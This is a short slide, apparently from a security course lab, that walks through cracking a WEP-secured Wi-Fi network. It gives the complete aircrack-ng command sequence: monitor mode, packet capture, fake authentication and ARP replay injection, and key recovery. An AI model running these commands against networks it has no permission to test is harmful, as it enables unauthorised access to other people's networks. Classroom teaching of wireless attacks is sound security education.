

# Lab: Attacking WEP
Requirements:
1) Wireless card which supports monitor mode (e.g., Alfa)
2) Kali with aircrack-ng suite
3) Network secured with WEP
Your task: Crack the password of the Actiontec network
airmon-ng start wlan0
airodump-ng wlan0mon
Choose your target and save its information (ESSID, Channel, MAC address)
airodump-ng -c (channel) --bssid (bssid) -w (file_name) (interface)

Second terminal:
aireplay-ng -1 0 -a (bssid) (interface)
aireplay-ng -3 -b (bssid) (interface)

Third terminal: Periodically rerun aircrack-ng until it decrypts the key
aircrack-ng -b (bssid) (file_name-01.cap)